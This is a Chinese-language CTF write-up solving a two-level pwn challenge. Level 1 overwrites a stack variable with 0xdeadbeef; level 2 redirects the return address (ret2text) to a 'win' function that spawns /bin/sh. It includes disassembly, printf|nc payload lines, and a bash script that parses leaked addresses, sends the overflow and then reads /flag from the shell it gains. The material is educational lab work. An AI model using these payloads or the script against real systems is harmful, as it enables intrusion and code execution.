






# 亦步亦趋

先用 `nc` 。

```bash
scetayh@yuprae-gentoo ~ $ nc nc1.ctfplus.cn 23273
Welcome to the world of Pwn !
Here I will show you how to reslove the problem. Follow me,lets begin!

==============================================
[Level 1] Memory Roaming: Local Variable Overwriting
==============================================
In C, local variables are stored on the stack in order.
target: using `gets` to change `magic` = 0xdeadbeef.

[-] the address of buffer `buf` is about : 0x7ffe2cf19a40
[-] the address of variables `magic` is about : 0x7ffe2cf19a5c
Now input your Payload:
> 
```

输出了伪界面。这是一个在栈上覆盖局部变量的题目，缓冲区 `buf` 的地址是 0x7ffe2cf19a40 ，变量 `magic` 的地址是 0x7ffe2cf19a5c ，很明显后者比前者要高。两个地址相减，得到 0x1c ，也就是 28 。这就说明 buf 开始往后数 28 个字节正好是 magic 所在的位置。**所以第一步要填入28个任意字节。**

然后程序又要：

```c
magic = 0xdeadbeef;
```

（魔数？）

右边改写成小端序（这些要点实际上在输入错误之后的 hint 中有提示）是 `ef be ad de`。所以 **第二步要填入 `\xef\xbe\xad\xde`** 。

**最后加一个换行 `\n`** 。

Control-C 后回到提示符。我偏向于使用 Bash shell 的 `printf` 命令：

```bash
scetayh@yuprae-gentoo ~ $ printf 'AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\n' | nc nc1.ctfplus.cn 23273
Welcome to the world of Pwn !
Here I will show you how to reslove the problem. Follow me,lets begin!

==============================================
[Level 1] Memory Roaming: Local Variable Overwriting
==============================================
In C, local variables are stored on the stack in order.
target: using `gets` to change `magic` = 0xdeadbeef.

[-] the address of buffer `buf` is about : 0x7fff4670de00
[-] the address of variables `magic` is about : 0x7fff4670de1c
Now input your Payload:
> [+] Congratulations! You have overwrited the magic and understand what is liitle-endian
```

其实也可以这么写：

```bash
{
    for ((i=0; i<28; i++)); do
        printf 'A'
    done

    printf '\xef\xbe\xad\xde'

    printf '\n'
} | nc nc1.ctfplus.cn 23273
```

或者：

```bash
{
    printf 'A%.0s' {1..28}
    printf '\xef\xbe\xad\xde'
    printf '\n'
} | nc nc1.ctfplus.cn 23273
```

这样优雅一点，不过 `A` 只有 28 个，不写循环也不碍事。

本层级通过。

```
==============================================
[Level 2] The real challenge: control flow! (Ret2Text)
==============================================
This time , you need to change the return address
I have prepared backdoor for you. 'win', It's addr about: 0x55dcb891c209
Now input your final Payload:
> 
```

把返回地址改成后门 `win` 的地址，这样等某个特定函数结束的时候就会运行 `win` 了。

这次应该填充过去的是：

1. `buf` 本身及后方空隙，共 28 字节（[Level 1](#level-1) 里面算过了）；
2. `magic` ，C int 类型 4 字节，目前共 28 + 4 = 32 字节；
3. 对齐用空隙，0 字节，因为 32 字节已经是 8 的整数倍了，无需对齐，目前共 32 + 0 = 32 字节；
4. 保存的 `rdp` ，8 字节，因为这是 64 位应用程序，目前共 32 + 8 = 40 字节。

综上所述， **第一步要填充 40 个字节** 。

`win` 的地址是 0x55dcb891c209 ，改写成小端序是 `09 c2 91 b8 dc 55 00 00` ，所以**第二步要填入 `\x09\xc2\x91\xb8\xdc\x55\x00\x00`** 。

**最后仍然加一个换行 `\n`** 。

所以这次：

```bash
{
    printf 'A%.0s' {1..40}
    printf '\011\302\221\270\334\125\000\000'
    printf '\n'
} | nc nc1.ctfplus.cn 32275
```

连同上次的 [Level 1](#level-1) ，写成：

```bash
{
    printf 'A%.0s' {1..28}
    printf '\xef\xbe\xad\xde'
    printf '\n'

    printf 'A%.0s' {1..40}
    printf '\x09\x32\x4e\x91\x5e\x55\x00\x00'
    printf '\n'
} | nc nc1.ctfplus.cn 23273
```

嗯？Level 2 没通过？……

---

**这道题想得有点简单了。**

在**废案**的探索基础上，把 `pwn` 拖进 IDA 看看：





函数区已经列出了 Level 1 和 Level 2 两个层级的同名函数：



实际上 Level 1 通过多次 `nc` 都被发现两个地址之间的距离恒为 28 字节，所以不算棘手，用废案里的方法还是能过。下面要解决的是 Level 2 的问题。先双击 `level2` 函数看看：

```asm
; Attributes: bp-based frame

public level2
level2 proc near

var_20= byte ptr -20h

; __unwind {
endbr64
push    rbp
mov     rbp, rsp
sub     rsp, 20h
lea     rax, asc_2048   ; "\n====================================="...
mov     rdi, rax        ; s
call    _puts
lea     rax, aLevel2TheRealC ; "[Level 2] The real challenge: control f"...
mov     rdi, rax        ; s
call    _puts
lea     rax, asc_20B0   ; "======================================="...
mov     rdi, rax        ; s
call    _puts
lea     rax, aThisTimeYouNee ; "This time , you need to change the retu"...
mov     rdi, rax        ; s
call    _puts
lea     rax, win
mov     rsi, rax
lea     rax, format     ; "I have prepared backdoor for you. 'win'"...
mov     rdi, rax        ; format
mov     eax, 0
call    _printf
lea     rax, aNowInputYourFi ; "Now input your final Payload:\n> "
mov     rdi, rax        ; format
mov     eax, 0
call    _printf
lea     rax, [rbp+var_20]
mov     rdi, rax
mov     eax, 0
call    _gets
nop
leave
retn
; } // starts at 1232
level2 endp
```



按 F5 查看伪代码：

```c
__int64 level2()
{
  _BYTE v1[32]; // [rsp+0h] [rbp-20h] BYREF

  puts(s: "\n==============================================");
  puts(s: "[Level 2] The real challenge: control flow! (Ret2Text)");
  puts(s: "==============================================");
  puts(s: "This time , you need to change the return address");
  printf(format: "I have prepared backdoor for you. 'win', It's addr about: %p\n", win);
  printf(format: "Now input your final Payload:\n> ");
  return gets(a1: v1);
}
```



这里确实是要打印 `win` 的地址。但是随后要做什么呢？看看 `win` ：

```
; Attributes: bp-based frame

; int win()
public win
win proc near
; __unwind {
endbr64
push    rbp
mov     rbp, rsp
lea     rax, s          ; "Congratulations! You have hijacked the "...
mov     rdi, rax        ; s
call    _puts
lea     rax, command    ; "/bin/sh"
mov     rdi, rax        ; command
call    _system
nop
pop     rbp
retn
; } // starts at 1209
win endp
```



注释已经证明了系统调用：

```
lea     rax, command    ; "/bin/sh"
```

伪代码也这样显示：

```c
int win()
{
  puts(s: "Congratulations! You have hijacked the control flow!");
  return system(command: "/bin/sh");
}
```


思路已经明确了，首先更正 [**废案**](old/index.md) 错误，然后拿到 Shell 环境，最后扫盘获取 flag 。

脚本具体编写：

```bash
#!/usr/bin/env bash

HOST=nc1.ctfplus.cn
PORT="$1"

TMPDIR=$(mktemp -d)
TMP=$(mktemp)
IN=$TMPDIR/in
OUT=$TMPDIR/out

mkfifo "$IN" "$OUT"

cleanup() {
    kill "$nc_pid" 2>/dev/null
    wait "$nc_pid" 2>/dev/null
    rm -rf "$TMPDIR"
}

trap cleanup EXIT

# nc 从头到尾只建立一次 TCP 连接
nc "$HOST" "$PORT" <"$IN" >"$OUT" &
nc_pid=$!

# FD 3 给 nc 写 stdin ，FD 4 读取 nc stdout
exec 3>"$IN"
exec 4<"$OUT"

print_upper_a() {
    local n=$1
    local s

    printf -v s '%*s' "$n" ''
    s=${s// /A}

    printf '%s' "$s"
}

print_deadbeef() {
    printf '\xef\xbe\xad\xde' # 魔数小端序
}

print_u64() {
    local x=$1
    local i
    local byte
    local esc

    for ((i = 0; i < 8; i++)); do # (64 bit) / (8 bit/byte) = 8 byte
        # 每次把目标字节移动到最低 8 位，然后用 & 0xff 把它取出来
        byte=$(( (x >> (8 * i)) & 0xff )) # Shell 和 C 一样也有位运算

        # 十进制数→八进制转义序列，这一步的反斜杠是强插字符串的，是 literal 的，等到下一步才表示转义
        printf -v esc '\\%03o' "$byte" # Shell printf -v 参数可以直接把结果储存到变量里

        # 八进制转义序列→字节
        printf '%b' "$esc"
    done
}

print_u48() {
    local x=$1
    local i
    local byte
    local esc

    for ((i = 0; i < 6; i++)); do
        byte=$(( (x >> (8 * i)) & 0xff ))
        printf -v esc '\\%03o' "$byte"
        printf '%b' "$esc"
    done
}

# Level 1

buf=
magic=

while IFS= read -r line <&4; do
    printf '%s\n' "$line"

    # 解析 buf 地址
    if [[ "$line" == *'address of buffer `buf` is about : 0x'* ]]; then
        hex=${line##*0x} # 斩头去尾留中间
        buf=$((16#$hex)) # 按十六进制理解 hex 并将十进制存入 buf

        printf 'tarikko: buf = 0x%x\n' "$buf" # 好观察
    fi

    # 解析 magic 地址
    if [[ "$line" == *'address of variables `magic` is about : 0x'* ]]; then
        hex=${line##*0x}
        magic=$((16#$hex))

        printf 'tarikko: magic = 0x%x\n' "$magic"
    fi

    # 一旦 Payload 出来就 break
    if [[ "$line" == *'Now input your Payload:'* ]]; then
        break
    fi
done

offset=$((magic - buf))

printf 'tarikko: Level 1 offset = %d (0x%x)\n' "$offset" "$offset" # 好观察

{
    print_upper_a "$offset"
    print_deadbeef
    # printf '\n' # 巨坑！！！不能加！！！留在 stdin 里会被第 2 层读到！
} >"$TMP"
cat "$TMP" >&3

# Level 2

win=

while IFS= read -r line <&4; do
    printf '%s\n' "$line"

    if [[ "$line" == *"It's addr about: 0x"* ]]; then
        hex=${line##*0x}
        win=$((16#$hex))

        printf 'tarikko: win = 0x%x\n' "$win"
    fi

    if [[ "$line" == *'Now input your final Payload:'* ]]; then
        break
    fi
done

printf 'tarikko: Level 2 offset = 40\n'

{
    print_upper_a 40
    print_u64 "$win"
    printf '\n'
} >"$TMP"
cat "$TMP" >&3

# 从此刻开始进入了 Shell 环境
printf 'id\n' >&3
printf 'pwd\n' >&3
printf 'ls -la\n' >&3
printf 'cat /flag\n' >&3
printf 'exit\n' >&3

# 继续打印服务器剩余输出
cat <&4
```